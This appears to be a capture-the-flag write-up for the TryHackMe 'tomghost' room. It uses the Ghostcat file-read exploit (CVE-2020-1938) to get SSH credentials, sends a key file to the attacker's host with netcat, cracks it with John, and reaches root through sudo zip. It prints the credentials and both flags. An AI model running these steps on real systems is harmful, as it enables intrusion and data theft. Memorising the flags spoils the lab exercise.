


# Task 1 - Flags

## Enumeration

sudo nmap -sV -sC -T5 -p- 10.10.174.26 -oN \~/Github/tomghostCTF/nmapscan.md

gobuster dir -u http://10.10.174.26:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 60 -q

Based on the nmap scan we can see there are 2 apache ports that are open that are on odd port numbers Tomcat is on 8080 and Jserv is on port 8009

With the gobuster scan on 8080 we can find a /manager directory

I was not able to find anything useful in the tomcat apache server. I started researching Apache Jfserv and came across CVE-2020-1938 which was a local file inclusion exploit so I tried that, I was also able to find a github repo with the python file https://github.com/00theway/Ghostcat-CNVD-2020-10487.git

python3 ajpShooter.py http://10.10.174.26 8009 /WEB-INF/web.xml read

after running the exploit we were able to get a user and a password, I thought it might be hashed but this was the actual password

skyfuck:8730281lkjlkjdqlksalks

With these credentials we are able to log in to SSH on port 22.

Then we are able to move over to the user directory for merlin and find the user.txt file

user.txt:THM{GhostCat_1s_so_cr4sy}

we are not able to run sudo as the skyfuck user but we do have a tryhackme.asc and credential.gpg file in the skyfuck directory.

We can transfer the .asc file with nc 10.13.16.145 443 < tryhackme.asc on the remote host while also having a listener on our local machine with nc -lvnp 443 >tryhackme.asc

now we can run gpg2john tryhackme.asc > hash to decrypt the file into a crackable hash and export that to a file called hash

Now with this file we can try to crack it with the following command john --wordlist=/usr/share/wordlists/rockyou.txt hash

once we decrypt the private key file we can use the password to decrypt the encrypted credential.pgp file on the remote host.

Once we do so we get the password for merlin, which apparently is very long.

Now we can change users into the merlin user, and since merlin is able to use sudo we can run sudo -l and see what files this user has access to.

The user is able to run zip as sudo so I went back to GTFOBins to see if there is any exploit for zip.

We were able to find an exploit with zip and use that to spawn an escalated shell

Now we can go to the /root directory and find the flag.

root.txt:THM{Z1P_1S_FAKE}

For this room we were able to exploit a LFI vulnerability to gain inital access then decrypt a pgp private key to gain access to another user that then had the ability to run zip with sudo which we exploited to gain a root shell and find the root flag.